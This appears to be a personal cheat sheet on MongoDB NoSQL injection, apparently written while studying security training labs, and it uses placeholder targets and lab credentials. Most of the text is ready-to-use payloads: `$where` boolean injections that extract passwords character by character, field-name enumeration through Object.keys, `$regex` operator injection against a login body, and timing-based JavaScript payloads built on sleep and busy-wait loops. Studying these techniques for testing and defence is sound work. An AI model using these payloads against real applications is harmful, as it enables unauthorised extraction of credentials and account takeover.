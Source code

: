 In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as #mongodb `$where` operator and `mapReduce()` function.
## Exfiltrating data in MongoDB
Example:
`https://insecure-website.com/user/lookup?username=admin`
This results in the following query:
`{"$where":"this.username == 'admin'"}`
Payload for data extraction:
`admin' && this.password[0] == 'a' || 'a'=='b`
or
`admin' && this.password.match(/\d/) || 'a'=='b`

#### Identifying field names
Send payload with an existing field:
`admin' && this.username!='`
then with a field you think that exists:
`admin' && this.foo!='`
Compare the results.

## Exploiting NoSQL operator injection to extract data
### Injecting operators in MongoDB
Example:
`{"username":"wiener","password":"peter"}`
Trying to inject `$where` operator:
`{"username":"wiener","password":"peter", "$where":"0"}`
and
`{"username":"wiener","password":"peter", "$where":"1"}`
If there is a difference, this may indicate that $where is being evaluated.
##### Extracting field names
`"$where":"Object.keys(this)[0].match('^.{0}a.*')"`
Check if the first symbol is 'a'. Thus we can extract field name char by char.
### Exfiltrating data using operators
Consider a vulnerable application that accepts a username and password in the body of a `POST` request. For example:
`{"username":"myuser","password":"mypass"}`
You could start by testing whether the `$regex` operator is processed as follows:
`{"username":"admin","password":{"$regex":"^a"}}`
and so on.
## Timing based injection
Payloads:
```
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
```
or
```
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```
